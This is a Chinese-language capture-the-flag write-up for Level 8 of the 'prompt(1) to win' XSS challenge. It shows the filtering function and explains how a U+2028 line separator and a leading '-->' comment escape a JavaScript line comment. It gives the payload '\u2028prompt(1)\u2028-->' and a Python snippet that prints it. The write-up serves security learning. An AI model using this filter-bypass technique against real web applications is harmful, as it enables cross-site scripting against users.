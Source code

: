 ## [[prompt(1) to win](http://prompt.ml)] [[Level 8 - Unicode](http://prompt.ml/8)] [[解题报告](https://exp-blog.com/safe/ctf/prompt/level-8-unicode/)]

------

## 题目

```javascript
function escape(input) {
    // prevent input from getting out of comment
    // strip off line-breaks and stuff
    input = input.replace(/[\r\n</"]/g, '');

    return '                                \n\
<script>                                    \n\
    // console.log("' + input + '");        \n\
</script> ';
}
```

## 解题报告

### 绕过换行过滤

这题一开始就把我们输入的内容都放到 `<script>` 标签里面了，换言之我们可以直接注入 JS 代码。

但实际上所输入的内容都在 行注释 `//` 后面，即使注入了 JS 也被注释掉，无法执行。

很明显要想办法把我们注入的内容换行，但是又题目把 回车换行符 `\r\n` 都过滤掉了，无法直接换行：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2008%20-%20Unicode/imgs/01.png)

虽然 **ASCII** 字符的换行符被过滤了，但是在 JS 里面是可以直接使用 Unicode 字符的，即可以使用 **Unicode** 的换行符进行绕过。查一下 Unicode 空字符的编码表，其中换行符的编码是 `\u000A` 和 `\u2028`。

但是 `\u000A` 等价于 ASCII 的 `\n` ，前面知道它被过滤了无法使用，所以可以使用 `\u2028` 作为替代。

| Unicode 编码 | 转义字符 | 含义 |
|:---------:|:---------:|:---------:|
| `\u0008` | `\b` | Backspace |
| `\u0009` | `\t` | TAB |
| `\u000A` | `\n` | 换行符 |
| `\u000B` | `\v` | 垂直制表符 |
| `\u000C` | `\f` | 换页符 |
| `\u000D` | `\r` | 回车符 |
| `\u0022` | `\"` | 双引号 `"` |
| `\u0027` | `\'` | 单引号 `'` |
| `\u005C` | `\\` | 反斜杠 `\` |
| `\u00A0` | | 不间断空格 |
| `\u2028` | | 行分隔符 |
| `\u2029` | | 段落分隔符 |
| `\uFEFF` | | 字节顺序标记 |

关于如何输入 `\u2028` 字符，后面再说。

这里先假设我们已经成功使用 `\u2028` 字符进行换行，跳出了 `//` 行注释。

那么我们预期用于完成挑战的 JS 代码应该是这样的：

```html
<script>
    // console.log("
prompt(1)");
</script>
```

但事实上这段代码由于语法错误，`prompt(1)` 是无法执行的，原因是末尾的 `");` 。

即使把  `");`  换到另一行，依然是语法错误：

```html
<script>
    // console.log("
prompt(1)
");
</script>
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2008%20-%20Unicode/imgs/02.png)

------------


### 绕过注释过滤

为了把  `");` 处理掉，要么将其闭合，要么将其注释。

但是尖括号 `<` 、双引号 `"` 、反斜杠 `/` 也都被过滤了，所以既没办法提前闭合 `</script>`， 也没办法使用另一个函数 `fun("` 向后闭合引号，当然多行注释 `/*` 和行注释 `//` 也没办法使用了，就更不用说 `<!--` HTML 注释了（而且在 JS 区域内也没法用）。

这里需要使用到 JS 中的一个注释黑魔法：

**在 JS 代码中，当** `-->` **位于行首时（左侧不能有任何非空字符），那么它相当于行注释**。

因此只需要构造这样的代码，就可以成功注释掉  `");` ：

```html
<script>
    // console.log("
prompt(1)
-->");
</script>
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2008%20-%20Unicode/imgs/03.png)


------------

### 构造 payload

至此我们可以已经知道 payload 应该为：`\u2028prompt(1)\u2028-->`

但是题目并不会帮我们把 Unicode 编码 `\u2028` 直接转换为换行符，所以我们需要直接输入这个换行符。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2008%20-%20Unicode/imgs/04.png)

但是使用键盘是无法输入这个换行符的，这里我借助了 python 将其直接打印出来。

python 代码为：

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-

print('exp-payload:\u2028prompt(1)\u2028-->(after run, copy this line)')
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2008%20-%20Unicode/imgs/05.png)

最终得到真正的 payload 如下（注意这个 payload 已经有 Unicode 换行符了，只是看不见罢了）：

`exp-payload: prompt(1) -->`

输入这个 payload 即可完成挑战（但是题目输出依然看不见换行效果...）

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2008%20-%20Unicode/imgs/06.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
